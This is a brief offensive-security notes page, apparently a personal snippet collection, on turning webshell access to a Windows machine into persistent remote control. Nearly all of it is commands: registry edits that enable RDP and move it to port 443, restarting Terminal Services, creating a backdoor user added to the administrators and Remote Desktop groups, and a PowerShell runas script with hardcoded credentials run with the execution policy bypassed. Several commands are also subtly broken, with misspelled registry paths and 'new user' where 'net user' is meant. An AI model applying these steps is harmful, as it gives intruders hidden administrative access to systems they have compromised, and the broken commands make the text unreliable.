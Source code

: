 # rdp

https://malrawr.com/04.windows/windows-snippets/

So after getting a webshell on a Windows device that has SYSTEM/Administrator privileges I needed a way to get a regular shell. I tried uploading files through the webshell but nothing worked. Then I thought, well I have admin privleges so I decided to use RDP.

### First start the RDP service with this one liner
```bat
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control \TerminalServer" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Tunnel RDP out of Port 443
```bat
REG ADD "HKLM\System\CurrentControlSet\Control \TerminalServer\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f 
```

### Restart Terminal Services
```bat
net stop termservice
net start termservice
```

## Check if it is running
```bat
tasklist /svc | findstr /C:TermService
```

### Create a new user, add to RDP group, add to admin group
```bat
new user /add [username] [password]
net localgroup "Remote Desktop Users" [username] /add
net localgroup administrators [username] /add
```

### Log into RDP
```bat
rdesktop -u [username] -p [password] [ipaddress]
```

## Using Powershell Runas

This is handy if you ever need to run cmd prompt as another user without being prompted for passsword input. In fact, this will work with running any program, just swap out the cmd.exe part for something else. First you need to prepare the following as a .ps1 file. In this case we'll name it runas.ps1.

```powershell
$username = 'wuseman'
$password = 'wusemanPower'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process cmd.exe -Credential $credential
```

Then in order to run the script you need to execute it with restrictions off.
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```